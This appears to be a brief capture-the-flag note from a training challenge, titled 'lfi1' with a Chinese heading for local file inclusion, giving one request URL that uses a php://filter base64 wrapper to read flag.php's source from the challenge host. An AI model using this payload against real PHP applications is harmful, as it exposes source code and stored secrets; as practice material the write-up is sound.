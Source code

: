 # lfi1
/本地文件包含漏洞

http://train2024.hitctf.cn:26900/?file=php://filter/read=convert.base64-encode/resource=flag.php
